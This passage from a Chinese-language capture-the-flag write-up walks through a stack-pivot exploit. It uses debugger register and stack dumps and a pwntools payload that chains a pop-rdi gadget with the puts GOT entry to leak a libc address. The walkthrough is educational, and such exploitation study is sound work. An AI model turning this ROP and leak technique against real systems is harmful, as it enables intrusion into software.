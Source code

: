 ```assembly
$rsp   : 0x0000000000602408  →  0x00000000004018bf  →   call 0x4018c7
$rbp   : 0x6e696d6461      ; 6e:n 69:i 6d:m 64:d 61:a
$rip   : 0x00000000004018c6  →   ret 
─────────────────────────────────────────────── stack ────
0x0000000000602408│+0x0000: 0x00000000004018bf  →   call 0x4018c7        ← $rsp
0x0000000000602410│+0x0008: 0x0000000000000000
───────────────────────────────────────── code:x86:64 ────
     0x4018bf                  call   0x4018c7
     0x4018c4                  nop    
     0x4018c5                  leave  
 →   0x4018c6                  ret    
   ↳    0x4018bf                  call   0x4018c7 ; main 调用 main_logic的地方
        0x4018c4                  nop    
        0x4018c5                  leave  
        0x4018c6                  ret    
```

- 第二次`leave: mov rsp, rbp; pop rbp `时，rsp被赋值成受控的rbp的值`0x602400`，而后的`pop rbp`使得rsp+8。故最后`rsp=0x602408`
- 同时rbp的值被赋值成`0x602400`上的数据`0x6e696d6461`即`admin` (小端存储)
- 由于rsp的值现在变成了`0x602408`，即name基址+8，故如果在name+8的地方填上想要跳转到的地址，在随后的`ret`执行时就可以跳转过去。(`ret=pop rip`, pop用的就是rsp的值)
- 从上面的输出可以看到，由于在name+8的地方填入的是`0x4018bf`所以`ret`后会执行`0x4018bf  call 0x4018c7`

# Step-2: Leak libc Address

> 疑似kali20.04 libc环境有所不同，Step-2回到比赛时本地使用的ubuntu 1804继续调试

```python
payload = b"admin\0".ljust(0x8, b'\0') + p64(0x401ab3) + p64(elf.got['puts']) + p64(0x4018B5)
sh.sendafter(">", payload)
payload = b"admin\0".ljust(0x8, b'\0')
sh.sendafter(">", payload)
```

- `0x4018bf call  0x4018c7` 导致rsp+8，执行完后`rsp=0x602410`, 而后经函数序言，rbp的值被改变，read pw时使用的buf计算方法是`rbp+buf(-0x20)`，最后给`0x40191C read`的buf参数为`0x6023e0`

```assembly
─────────────────────────[ REGISTERS ]───────────────────────────────────
*RDI  0x0
*RSI  0x6023e0 (stderr) —▸ 0x7ffff7dce680 (_IO_2_1_stderr_) ◂— 0xfbad2284
*RBP  0x602400 ◂— 0x6e696d6461 /* 'admin' */
*RSP  0x6023e0 (stderr) —▸ 0x7ffff7dce680 (_IO_2_1_stderr_) ◂— 0xfbad2284
*RIP  0x40191c ◂— call   0x4006a0
────────────────────────────────────────[ DISASM ]────────────────────────────────────────
 ► 0x40191c    call   read@plt <read@plt>
        fd: 0x0
        buf: 0x6023e0 (stderr) —▸ 0x7ffff7dce680 (_IO_2_1_stderr_) ◂— 0xfbad2284 ; 注意buf数值
        nbytes: 0x28
 
   0x401921    mov    edx, 5
   0x401926    mov    esi, 0x401af7
────────────────────────────────────────[ STACK ]──────────────────────────────────
00:0000│ rax rsi rsp 0x6023e0 (stderr) —▸ 0x7ffff7dce680 (_IO_2_1_stderr_) ◂— 0xfbad2284
01:0008│             0x6023e8 ◂— 0x0
... ↓                2 skipped
04:0020│ rbp         0x602400 ◂— 0x6e696d6461 /* 'admin' */
05:0028│             0x602408 —▸ 0x401ab3 ◂— pop    rdi
06:0030│             0x602410 —▸ 0x602028 —▸ 0x7ffff7a62aa0 (puts) ◂— push   r13
07:0038│             0x602418 —▸ 0x4018b5 ◂— call   0x400680
```
